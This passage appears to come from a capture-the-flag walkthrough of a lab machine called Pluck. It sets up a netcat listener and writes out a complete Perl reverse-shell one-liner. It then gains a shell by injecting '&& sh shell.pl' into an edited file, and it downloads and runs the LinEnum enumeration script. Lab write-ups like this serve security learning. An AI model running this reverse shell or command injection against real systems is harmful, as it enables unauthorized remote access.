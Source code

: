 We'll start by getting netcat to listen:

root@kali:~/pluck# nc -lvp 443
listening on [any] 443 ...

perl -e 'use Socket;$i="192.168.118.186";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

Nope, that breaks the parsing.

Edit a file to create shell.pl with that perl oneline in it, edit a file and tack on && sh shell.pl.  Huzaah, that gives me a shell.

$ cat /proc/version
Linux version 4.8.0-22-generic (buildd@lgw01-11) (gcc version 6.2.0 20161005 (Ubuntu 6.2.0-5ubuntu12) ) #24-Ubuntu SMP Sat Oct 8 09:15:00 UTC 2016

$ dpkg --get-selections | grep deinstall
apparmor					deinstall
apport						deinstall
byobu						deinstall
command-not-found				deinstall
exim4-base					deinstall
exim4-config					deinstall
language-selector-common			deinstall
libpython2.7-minimal:amd64			deinstall
libyaml-0-2:amd64				deinstall
lsb-release					deinstall
lxc-common					deinstall
lxd						deinstall
mdadm						deinstall
nano						deinstall
open-vm-tools					deinstall
plymouth-theme-ubuntu-text			deinstall
python						deinstall
python2.7-minimal				deinstall
python3						deinstall
python3.5-minimal				deinstall
snap-confine					deinstall
snapd						deinstall
software-properties-common			deinstall
sosreport					deinstall
ssh-import-id					deinstall
tcpdump						deinstall
tmux						deinstall
ubuntu-core-launcher				deinstall
ubuntu-release-upgrader-core			deinstall
ufw						deinstall
unattended-upgrades				deinstall
update-notifier-common				deinstall

$ curl -O https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 43283  100 43283    0     0  23731      0  0:00:01  0:00:01 --:--:-- 23729
$ chmod +x LinEnum.sh
$ ./LinEnum.sh
